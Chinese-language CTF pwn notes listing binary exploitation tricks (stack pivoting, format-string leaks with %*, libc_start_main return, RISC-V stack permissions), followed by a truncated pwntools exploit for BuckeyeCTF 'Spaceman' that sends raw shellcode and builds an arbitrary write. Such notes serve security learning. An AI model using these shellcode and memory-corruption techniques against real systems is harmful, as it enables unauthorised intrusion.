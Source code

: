   ```python
      pwnlib.util.misc.run_in_new_terminal(attach_payload)
  ```

- 异构静态编译的情况下可以通过arena_get_retry和dl_runtime_reslove来控制参数

  aarch64

  riscv64:

  is_trusted_path_normalize 函数这里可以控制sp进行栈迁移

- dil 是rdi寄存器的低32位

  https://www.jianshu.com/p/57128e477efb

- 在libc段存在elf 地址，比如stdout

- 设置返回地址位libc_start_main_impl+139 程序会重新从main函数开始

- `set context-sections` 命令用于配置在打印当前堆栈帧时显示的上下文信息部分。它定义了在上下文输出中显示哪些信息。

  该命令接受一个字符串参数，用于指定要包含在上下文显示中的部分。可用的部分包括：

  - `all`：包括所有可用的部分。
  - `registers`：显示寄存器的值。
  - `code`：显示反汇编的代码。
  - `stack`：显示堆栈内存。
  - `data`：显示数据内存。

- gs，fs寄存器可以让我们找到程序的地址

- `%*`的利用

  [19:41]You can leak value on the stack using %*
  [19:41]Although u cant specify the index
  [19:41]U can use %c %c %* to get a leak on any position

- _nptl_change_stack_perm 可用于设置栈的权限，目前在risc-v题的题目中见过

BuckeyeCTF Spaceman

```python
from pwn import *
import struct
context.binary = elf = ELF("./spaceman")

# io = process("./run.sh")
# io = remote("127.0.0.1",1337)
io = remote("challs.pwnoh.io", 13372)

sc = b"A"*0x2e
sc = b"\x93\x08\xf0\x03\x13\x05\x00\x00\x93\x05\x81\xec\x13\x06\x00\x10s\x00\x00\x00"
# sc = b"A"*8
# sc += b"B"*8
# sc += b"C"*8
# sc += b"D"*8
io.sendlineafter(b'LOGIN: ',sc)
environ = 0x8f6a0
_read = 0x2474e

# arb write (write help function over echo 0x89028)
address = 0x89008#0x8a990
p = b"gang\x00aaa"
p += b"A"*8#p64(0x89028)
# p = p.ljust(0x10,b"A")
p += p64(address)
# p += b"C"*7
p += p64(_read)[:-1]
io.sendlineafter(b"COMMAND> ",p)
# sleep(1)
p2 = p64(0x89028)
```